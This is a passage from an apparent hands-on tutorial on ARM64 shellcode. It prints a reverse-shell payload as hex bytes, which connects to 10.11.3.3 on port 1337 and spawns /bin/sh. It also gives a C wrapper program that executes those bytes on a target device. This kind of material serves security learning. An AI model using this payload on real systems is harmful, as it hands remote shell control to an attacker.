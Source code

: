 **What's in the .bin file? This will hold a copy of our object file. This is what the contents look like:**

```
cat reverseshell.bin

@��!������R!��������h�R!�������R!���!����!���A����!�����ҨR!�9

/bin/sh% 
```

`my-first-shellcode.txt`(actual shellcode):

{% code overflow="wrap" %}
```
\x40\x00\x80\xd2\x21\x00\x80\xd2\x02\x00\x80\xd2\xc8\x18\x80\x52\x21\x00\x00\xd4\xe4\x03\x00\xaa\xe0\x03\x04\xaa\xc1\x02\x00\x10\x02\x02\x80\xd2\x68\x19\x80\x52\x21\x00\x00\xd4\xe0\x03\x04\xaa\x01\x00\x80\xd2\x02\x00\x80\xd2\x08\x03\x80\x52\x21\x00\x00\xd4\xe0\x03\x04\xaa\x21\x00\x80\xd2\x00\x00\x80\xd2\x21\x00\x00\xd4\xe0\x03\x04\xaa\x41\x00\x80\xd2\x02\x00\x80\xd2\x21\x00\x00\xd4\xe0\x00\x00\x10\x01\x00\x80\xd2\x02\x00\x80\xd2\xa8\x1b\x80\x52\x21\x00\x00\xd4\x02\x00\x05\x39\x0a\x0b\x03\x03\x2f\x62\x69\x6e\x2f\x73\x68%
```
{% endcode %}

:heart\_eyes: How awesome is that??

### Wrapper Program for Shellcode (in C)

**`shellcode-exec2.c`:**

```c
#include <stdio.h> 
#include <string.h>
/* This program will serve as a "wrapper" utility to both store and execute our shellcode on a target device */

typedef void (*execShellcode)();

void main() {

	unsigned char shellcode[] = 
	"\x40\x00\x80\xd2\x21\x00\x80\xd2"
	"\x02\x00\x80\xd2\xc8\x18\x80\x52"
	"\x21\x00\x00\xd4\xe4\x03\x00\xaa"
	"\xe0\x03\x04\xaa\xc1\x02\x00\x10"
	"\x02\x02\x80\xd2\x68\x19\x80\x52"
	"\x21\x00\x00\xd4\xe0\x03\x04\xaa"
	"\x01\x00\x80\xd2\x02\x00\x80\xd2"
	"\x08\x03\x80\x52\x21\x00\x00\xd4"
	"\xe0\x03\x04\xaa\x21\x00\x80\xd2"
	"\x00\x00\x80\xd2\x21\x00\x00\xd4"
	"\xe0\x03\x04\xaa\x41\x00\x80\xd2"
	"\x02\x00\x80\xd2\x21\x00\x00\xd4"
	"\xe0\x00\x00\x10\x01\x00\x80\xd2"
	"\x02\x00\x80\xd2\xa8\x1b\x80\x52"
	"\x21\x00\x00\xd4\x02\x00\x05\x39"
	"\x0a\x0b\x03\x03\x2f\x62\x69\x6e"
	"\x2f\x73\x68";

	printf("Shellcode length: %zu\n", sizeof(shellcode));
	
	// Shellcode to fp
	execShellcode func = (execShellcode)shellcode;

	// Execute shellcode
	printf("Executing shellcode...\n");
	func();
```